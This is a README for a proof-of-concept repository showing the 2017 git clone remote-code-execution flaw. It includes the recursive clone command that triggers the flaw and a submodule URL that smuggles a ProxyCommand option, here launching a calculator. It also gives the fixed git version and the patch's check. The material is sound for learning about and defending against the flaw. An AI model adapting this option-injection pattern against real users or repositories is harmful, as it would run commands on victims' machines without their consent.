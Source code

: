 # Git clone RCE PoC repository

This repo is an example of `git clone` vulnerability described in http://blog.recurity-labs.com/2017-08-10/scm-vulns using a git submodule.

To see it in action, simply clone the repo using:
```
git clone https://github.com/disconnect3d/git_clone_rce_calc.git --recursive
```
The recursive part is crucial as git **must** try to clone the malicious git submodule url.
This will launch a `gnome-terminal` on your machine.

### To be safe
**Upgrade your Git to 2.14.1 as that is fixed on that version as stated in [git's release notes](https://raw.githubusercontent.com/git/git/master/Documentation/RelNotes/2.14.1.txt).**

After updating the issue is gone:
```
$ git clone https://github.com/disconnect3d/git_clone_rce_calc.git --recursive
Cloning into 'git_clone_rce_calc'...
remote: Counting objects: 15, done.
remote: Compressing objects: 100% (15/15), done.
remote: Total 15 (delta 3), reused 3 (delta 0), pack-reused 0
Receiving objects: 100% (15/15), done.
Resolving deltas: 100% (3/3), done.
Checking connectivity... done.
Submodule 'git_calc_rce' (ssh://-oProxyCommand=gnome-calculator/wat) registered for path 'git_calc_rce'
Cloning into 'git_calc_rce'...
fatal: strange hostname '-oProxyCommand=gnome-calculator' blocked
fatal: clone of 'ssh://-oProxyCommand=gnome-calculator/wat' into submodule path 'git_calc_rce' failed
```

### Changes that fix the problem

You can see changes that fixed the problem in [230ce07d commit id e.g. in git mirror repo](  https://github.com/git/git/commit/230ce07d134f597a8107d3ed5d76d212ff90db70).

Basically they have [introduced a check](https://github.com/git/git/commit/230ce07d134f597a8107d3ed5d76d212ff90db70#diff-c36199ef0fc86df61570de73eb0fde65R1324) which is called in some places:
```c
int looks_like_command_line_option(const char *str)
 {
 	return str && str[0] == '-';
 }
 ```
